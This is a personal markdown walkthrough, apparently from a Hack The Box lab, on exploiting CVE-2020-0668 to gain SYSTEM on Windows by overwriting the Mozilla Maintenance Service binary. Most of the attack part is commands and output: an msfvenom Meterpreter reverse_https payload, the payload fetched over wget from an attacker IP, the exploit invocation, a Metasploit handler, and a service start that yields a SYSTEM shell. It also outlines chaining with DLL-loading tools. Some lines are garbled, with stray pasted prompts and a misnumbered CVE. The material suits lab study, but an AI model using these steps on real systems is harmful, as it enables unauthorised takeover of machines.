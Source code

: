## CVE-2020-0668  Kernal priv-esc

 [Microsoft CVE-2020-0668: Windows Kernel Elevation of Privilege Vulnerability](https://itm4n.github.io/cve-2020-0668-windows-service-tracing-eop/)
### IMPACT: Privilege Escalation
 - The exploit may allow us to replace binaries/dlls for highly privileged services that we dont have access to.
  we could replace the binary file for a  **highly privileged service such as the Mozilla maintenance service**. which runs as system

## Requirements: 
1. CVE script
2. find service running as system that can be started by unprivileged users. (like mozilia maintence)
### techniques available: 2
- highly privileged service binary thats not in system32 (mozilia maintenance)
- system32 file but this requires chaining with other exploits
### Discovery:
1. with wes-ng
2. manual
`check patch level`
```cmd-session
wmic qfe list brief
				InstalledOn 
```
`We can search for each KB to get a better idea of what fixes have been installed and how far behind the system may be on security updates.`

###  technique 1: replace highly privileged service binary.
Some third-party services can be abused for escalation if they run as **SYSTEM** and are startable by unprivileged users.
### technique steps:
1. copy a payload with same name as service binary twice eg vsrv1.exe and another copy with the rename to vsrv2.exe
2. run cve 0866 and point it to first malicious exe.
3. check if succesful with icalcs (shows `F`) to the legit service location.
4. replace the 1.exe with the second 2.exe
5. 
### requirements
Example: **Mozilla Maintenance Service**
- Service runs as **SYSTEM**.
- Startable by unprivileged users.
- Binary location (not system-protected):  
`C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe`

We can use [this](https://github.com/RedCursorSecurityConsulting/CVE-2020-0668) exploit for CVE-2020-0668, download it, and open it in Visual Studio within a VM. 
#### pre-exploitation
 1. Checking Permissions on Binary
`icacls` confirms that we only have read and execute permissions on this binary based on the line `BUILTIN\Users:(I)(RX)` in the command output.
```cmd-session
C:\htb> icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

                                                                          BUILTIN\Users:(I)(RX)
```


 2. generate a malicious `maintenanceservice.exe` binary that can be used to obtain a Meterpreter reverse shell connection from our target.
#msfvenom
```shell
# generate
 msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe
----------------------------------------------------
# serve
python3 -m http.server 8080
```

3.  Downloading the Malicious Binary twice 
- For this step we need to make two copies of the malicious .exe file. We can just pull it over twice or do it once and make a second copy.
- We need to do this because running the exploit corrupts the malicious version of `maintenanceservice.exe` that is moved to (our copy in `c:\Users\htb-student\Desktop` that we are targeting) `c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe` which we will need to account for later. 
```powershell
wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice.exe

wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice2.exe
```

4. run exploit to replace with first exe
```cmd-session
CVE-2020-0668.exe <C:\path-to-attcker-exe>/maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```
#### 5. Checking Permissions of New File

- The exploit runs and executing `icacls` again shows the following entry for our user: `WINLPE-WS02\htb-student:(F)`. 
- This means that our htb-student user has full control over the maintenanceservice.exe binaryPS C:\htb> systeminfo
, and we can overwrite it with a non-corrupted version of our malicious binary.
```cmd-session
C:\htb> icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'
                                                                          WINLPE-WS02\htb-student:(F)
```

##### 6. replace first `msservice1.exe` with second exe `msservice2.exe`
```cmd-session
C:\htb> copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

        1 file(s) copied.

```
5. prepare reverse shell listener (netcat or meterpreter)

PS C:\htb> systeminfo
```shell-session
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <our_ip>
set LPORT 8443
exploit
```
using meterpreter with a handler.rc "resource script" that is executed when u run metaspl
`Launching Metasploit with Resource Script`
```shell-session
 sudo msfconsole -r handler.rc 
```
start the service
```cmd-session
net start MozillaMaintenance 
```
`Ignore the error`

```
meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```
---
## technique 2 (chaining)
If the operating system is vulnerable to [CVE-2018-0952](https://www.tenable.com/cve/CVE-2018-0952) or [CVE-2019-0841](https://www.tenable.com/cve/CVE-2019-0841), we can leverage this to gain SYSTEM privileges.
#### impact:
d **create a file of our choosing or replace legit files** in a protected folder such as: `C:\Windows\System32`. but this requires chaining with another CVE.
1. for the first technique: chaining with other exploits: Since this exploit only gives us privileged file write, we must chain it with another vulnerability to replace system protected files
### Common Chaining Techniques

- **Limitation for 1st method:**  the exploit overwrites a dll inside system32 but We **cannot overwrite protected Windows files** directly. so we much chain
1. **UsoDllLoader**  
 - Loads malicious DLLs through Windows Update Orchestrator.  
 - Limitation: may not work if **Windows Updates are pending** or **currently installing**.  
 - Repo: [UsoDllLoader](https://github.com/itm4n/UsoDllLoader)
2. **DiagHub Service**  
 - DLL loading via Diagnostics Hub.  
 - Limitation: diaghub Service may not be available on all systems.    may not work if Windows Updates are pending or currently being installed
 - Repo: [DiagHub](https://github.com/xct/diaghub)